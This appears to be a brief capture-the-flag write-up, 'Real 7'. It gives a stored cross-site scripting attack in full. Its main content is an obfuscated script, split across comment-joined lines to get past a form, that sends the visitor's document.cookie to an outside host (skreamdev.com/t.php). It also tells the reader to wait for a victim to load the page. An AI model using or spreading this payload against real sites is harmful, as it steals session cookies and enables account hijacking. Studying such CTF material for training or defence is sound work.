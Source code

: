 # Real 7

Upload t.php to your server
```
http://skreamdev.com/t.php?c=*cookie*
```
Post to the form line by line from bottom to top

```html
<script>/*\
*/var i=new Image();/*\
*/i.src="http://skr"+/*\
*/"eamdev.com"+/*\
*/"/t.php?c"+/*\
*/"="+document.cookie;/*\
*/</script>
```
Wait for the vicim to visit the page and collect the flag
